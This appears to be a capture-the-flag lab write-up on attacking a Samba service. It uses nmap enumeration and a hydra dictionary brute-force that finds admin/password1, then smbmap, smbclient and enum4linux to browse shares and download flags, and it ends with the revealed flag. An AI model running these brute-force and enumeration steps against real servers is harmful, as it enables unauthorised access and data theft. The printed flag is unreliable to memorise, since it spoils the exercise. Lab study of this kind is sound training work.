


# 🔬SAMBA

## Lab 1

>  🔬 [Samba Recon: Dictionary Attack](https://attackdefense.pentesteracademy.com/challengedetails?cid=556)
>
>  - Target IP: `192.174.58.3`
>  - **Brute-force** of SAMBA service
>
>  - **Enumeration, brute-force, tools and flags** have been already covered in this [SMB Enum Lab 6](../../../assessment-methodologies/3-enumeration/smb-enum.md)

### Enumeration

```bash
ip -br -c a

nmap -sV 192.34.128.3
```

```bash
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: RECONLABS)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: RECONLABS)
```

> 📌 Server is running SAMBA on the standard port `445`

### Brute-Force

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

```bash
hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.34.128.3 smb
```

```bash
[445][smb] host: 192.34.128.3   login: admin   password: password1
```


### Login and Enumeration

- Use `SMBMap` tool

```bash
smbmap -H 192.34.128.3 -u admin -p password1
```

```bash
Disk  Permissions
----  -----------
shawn  READ, WRITE
nancy  READ ONLY
admin  READ, WRITE
IPC$   NO ACCESS
```

- Use `smbclient` tool to access Samba sources

```bash
smbclient -L 192.34.128.3 -U admin
```

```bash
smbclient //192.34.128.3/shawn -U admin
```

```bash
help
dir
# check files and folders in that share
```

```bash
smbclient //192.34.128.3/nancy -U admin
```

```bash
cd dir\
get flag
exit
```

```bash
smbclient //192.34.128.3/admin -U admin
```

```
cd hidden
get flag.tar.gz
exit
```

```bash
tar xzf flag.tar.gz
cat flag
```

- Use `enum4linux`tool

```bash
enum4linux -a 192.34.128.3
# a = enumerate all information
```



```bash
enum4linux -a -u admin -p password1 192.34.128.3
```




<details>
<summary>Reveal Flag:  🚩</summary>


`2727069bc058053bd561ce372721c92e`

</details>

------

